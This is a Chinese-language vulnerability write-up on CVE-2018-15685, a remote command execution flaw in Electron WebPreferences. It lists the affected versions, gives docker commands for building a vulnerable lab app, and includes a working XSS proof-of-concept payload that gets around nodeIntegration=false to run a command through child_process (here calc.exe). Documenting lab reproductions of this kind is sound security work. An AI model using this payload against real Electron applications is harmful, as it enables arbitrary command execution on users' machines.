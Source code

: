 ```yaml
---
title: "（CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞"
id: zhfly2907
---
```


# （CVE-2018-15685）Electron WebPreferences 远程命令执行漏洞

## 一、漏洞简介

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

## 二、漏洞影响

GitHub Electron 1.7.15版本，1.8.7版本，2.0.7版本，3.0.0-beta.6版本。

## 三、复现过程

### 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron 
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web 
```

此时，访问`http://www.0-sec.org:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

### 漏洞复现

在本地打开应用：

![image](../img/4a7fe7ac103a70924367b1965f176681.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交``，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');"> 
```

可见，calc.exe已成功弹出：

![image](../img/79f7625aa04779409bcf2f8812b098fe.png)

## 参考链接

> https://vulhub.org/#/environments/electron/CVE-2018-15685/